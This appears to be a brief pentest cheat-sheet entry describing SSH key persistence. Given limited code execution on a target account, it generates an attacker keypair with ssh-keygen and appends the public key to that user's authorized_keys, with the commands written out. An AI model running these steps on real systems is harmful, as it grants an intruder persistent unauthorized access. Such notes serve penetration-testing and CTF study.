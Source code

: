 ##### Requirements:
limited RCE (file-write, mkdir, chmod, pwd) on target user capable of SSH.

Private id_rsa (attacker)
id_rsa.pub (attacker)

##### Obtain id_rsa files
On the attacking machine, use `ssh-keygen`
```
ssh-keygen // Input a path that won't collide with your files, empty passphrase
chmod 600 id_rsa // Make id_rsa usable
```

##### Exploitation
Move your `id_rsa.pub` to `/home/USER/.ssh`
```
cd /home/USER/.ssh  // If the .ssh directory does not exist, create it.
echo "ID_PUB_CONTENT" >> authorized_keys
chmod 600 authorized_keys
```